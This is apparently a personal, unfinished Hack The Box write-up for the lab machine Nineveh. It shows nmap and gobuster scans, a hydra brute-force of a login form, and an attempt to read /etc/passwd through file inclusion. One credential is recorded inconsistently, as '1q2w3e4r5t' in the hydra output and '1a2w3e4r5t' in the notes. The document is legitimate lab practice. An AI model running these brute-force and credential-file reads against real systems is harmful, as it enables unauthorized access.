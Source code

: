 # nineveh

| Variable          | Value        |
| ----------------- | ------------ |
| Remote IP         | 10.10.10.43  |
| Local IP          | 10.10.14.32   |
| Local listen port | 4444 |

## Nmap
TCP port scan

```bash
$ sudo nmap -sC -sV -oA namp/nineveh 10.10.10.43
# Nmap 7.92 scan initiated Fri Jun 24 22:54:58 2022 as: nmap -sC -sV -oA ./nineveh/nmap/TCP_nineveh 10.10.10.43
# Nmap done at Fri Jun 24 22:55:01 2022 -- 1 IP address (0 hosts up) scanned in 3.43 seconds

```

UDP port scan

```bash
$ sudo nmap -Pn -sU --min-rate=10000 10.10.10.43

# Nmap 7.92 scan initiated Fri Jun 24 22:55:01 2022 as: nmap -Pn -sU --min-rate=10000 -o ./nineveh/nmap/UDP_nineveh 10.10.10.43
Nmap scan report for 10.10.10.43
Host is up.
All 1000 scanned ports on 10.10.10.43 are in ignored states.
Not shown: 1000 open|filtered udp ports (no-response)

# Nmap done at Fri Jun 24 22:55:03 2022 -- 1 IP address (1 host up) scanned in 2.19 seconds
```

no info come up with default nmap scan
so now scan with full port namp

## Full port nmap
```shell
┌──(gua🥺kali-nyan)-[~/Documents/GitHub/Pen-Test-Reports/nineveh]
└─$ nmap -p- -T4 -A -sV 10.10.10.43
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-25 00:16 JST
Nmap scan report for nineveh.htb (10.10.10.43)
Host is up (0.081s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT    STATE SERVICE  VERSION
80/tcp  open  http     Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
443/tcp open  ssl/http Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
| ssl-cert: Subject: commonName=nineveh.htb/organizationName=HackTheBox Ltd/stateOrProvinceName=Athens/countryName=GR
| Not valid before: 2017-07-01T15:03:30
|_Not valid after:  2018-07-01T15:03:30
|_http-title: Site doesn't have a title (text/html).
|_ssl-date: TLS randomness does not represent time
| tls-alpn:
|_  http/1.1

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 109.07 seconds
```

apatche 2.4.18 are runnning on ubuntu
and shows this bellow

![[Pasted image 20220624230441.png]]
no interesting info

now add `nineveh.htb` at `etc/hosts` and look up

![[Pasted image 20220624231708.png]]
nothing changed

now we are going to run `gobuster`
```shell
┌──(gua🥺kali-nyan)-[~/Documents/GitHub/Pen-Test-Reports/nineveh]
└─$ gobuster dir -u http://nineveh.htb -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://nineveh.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/06/25 00:04:46 Starting gobuster in directory enumeration mode
===============================================================
/.htpasswd            (Status: 403) [Size: 295]
/.hta                 (Status: 403) [Size: 290]
/.htaccess            (Status: 403) [Size: 295]
/index.html           (Status: 200) [Size: 178]
/info.php             (Status: 200) [Size: 83687]
/server-status        (Status: 403) [Size: 299]

===============================================================
2022/06/25 00:05:28 Finished
===============================================================
```

```shell
┌──(gua🥺kali-nyan)-[~/Documents/GitHub/Pen-Test-Reports/nineveh]
└─$ gobuster dir -u http://10.10.10.43 -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.43
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/06/25 00:04:05 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 290]
/.htpasswd            (Status: 403) [Size: 295]
/.htaccess            (Status: 403) [Size: 295]
/index.html           (Status: 200) [Size: 178]
/info.php             (Status: 200) [Size: 83689]
/server-status        (Status: 403) [Size: 299]

===============================================================
2022/06/25 00:04:47 Finished
===============================================================
```

`/info.php`

![[Pasted image 20220625002029.png]]

regobusterd with bigger wordlist

```shell

```

found department directory
and there is a login form

![[Pasted image 20220625003316.png]]

![[Pasted image 20220625004018.png]]

found interesting info from comment of source code ` @admin! MySQL is been installed.. please fix the login page! ~amrois `

looks we got 2 usernames of this server `admin`, `amrois`.
and now try to login with `amrois`.

login with `amrois` with unreliable password and it shows error `invaild username`.
![[Pasted image 20220625003954.png]]
frome this error message, amrois are not exist
try login with `admin`

# HTTP login Brute-force Attack hydra
HTTP login brute-force attack with `hydra`
https://qiita.com/Hashibirokou/items/411a11779987043a5095

![[Pasted image 20220625005230.png]]
![[Pasted image 20220625005251.png]]
![[Pasted image 20220625005319.png]]
![[Pasted image 20220625005329.png]]

SAMPLE : `hydra -V -f -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 http-post-form '/user/login.php:username=^USER^&password=^PASS^:Invalid Password!'`

-f : stop when success to login
-l : set username
-P : set password list
after these opptions, IP address and `http-post-form`.
and in the end set `login page pass:POST request data format:error massage`.
in POST request data format use `^USER^` place of user and `^PASS^` for password place.

```shell
┌──(gua🥺kali-nyan)-[~/Documents/GitHub/Pen-Test-Reports/nineveh]
└─$ hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 http-post-form "/department/login.php:username=admin&password=^PASS^:Invalid"
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-06-25 01:08:43
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://10.10.10.43:80/department/login.php:username=admin&password=^PASS^:Invalid
[STATUS] 1582.00 tries/min, 1582 tries in 00:01h, 14342817 to do in 151:07h, 16 active
[80][http-post-form] host: 10.10.10.43   login: admin   password: 1q2w3e4r5t
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-06-25 01:11:36
```

ran hydra and got credentials for admin
`admin:1a2w3e4r5t`

![[Pasted image 20220625012019.png]]

exploring to the `Notes` tab shows this file inclusion in the URL ahahahahhahaha

![[Pasted image 20220625012841.png]]

now try to look up `etc/passwd` file

![[Pasted image 20220625013003.png]]

but it doesnt work...
and there is no more interest things....
this page are may be honny pot